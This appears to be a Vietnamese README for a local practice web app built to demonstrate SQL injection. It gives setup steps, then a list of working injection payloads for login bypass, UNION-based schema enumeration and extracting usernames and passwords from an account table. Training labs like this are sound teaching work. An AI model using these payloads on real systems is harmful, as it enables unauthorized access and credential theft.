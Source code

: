 1. Cài ứng dụng
    - Nodejs
    - MySql
    - Vscode

2. Vào ứng dụng MySql và tạo một database "sql_injection"

3. Import database trong thư mục database vào mysql

4. Vào file database.js (model/database.js) chỉnh sửa "username" (dòng 5) và "password" (dòng 6) - chính là username và password của database cần kết nối

5. Mở terminal (cmd)

6. Gõ lệnh: 
    - npm install --global yarn
    - yarn
    - yarn start

7. Mở trình duyệt với url: "http://localhost:3000"

8. Các câu lệnh tấn công thử trên web:
    - ' OR 1 = 1 --
    - ' AND SLEEP(1) --
    - ' ORDER BY 4 --
    - ' ORDER BY 5 --
    - ' UNION SELECT 1, 2, 3, 4 --
    - ' UNION SELECT 1, GROUP_CONCAT(TABLE_NAME), 3, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA= DATABASE() -- ' UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME), 3, 4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'account' --
    - ' UNION SELECT id, password, username, 4 FROM account --

9. Note:
    - Trường hợp xảy ra lỗi khi chạy "yarn start" xem tại link "https://stackoverflow.com/questions/50093144/mysql-8-0-client-does-not-support-authentication-protocol-requested-by-server"
    - Đằng sau mỗi dấu -- ở phần 8 luôn có 1 dấu cách